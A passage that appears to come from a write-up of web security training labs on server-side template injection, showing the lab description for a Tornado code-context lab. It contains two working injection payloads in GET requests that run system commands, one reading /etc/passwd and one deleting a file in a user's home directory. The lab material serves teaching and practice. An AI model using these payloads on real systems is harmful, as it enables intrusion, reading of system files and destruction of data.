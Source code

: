 It is possible to execute code with a payload like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=<%=+system('cat+/etc/passwd')+%>

GET /?message=<%=+system('rm+/home/carlos/morale.txt')+%>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/f80a5517ef27e2270079660ba7939dd5.png)

![img](media/010daa5898cf6ae480a7dfd6a8af1d6b.png)

02 Basic server-side template injection (code context)
======================================================

This lab is vulnerable to server-side template injection due to the way it
unsafely uses a Tornado template. To solve the lab, review the Tornado
documentation to discover how to execute arbitrary code, then delete the
morale.txt file from Carlos's home directory.
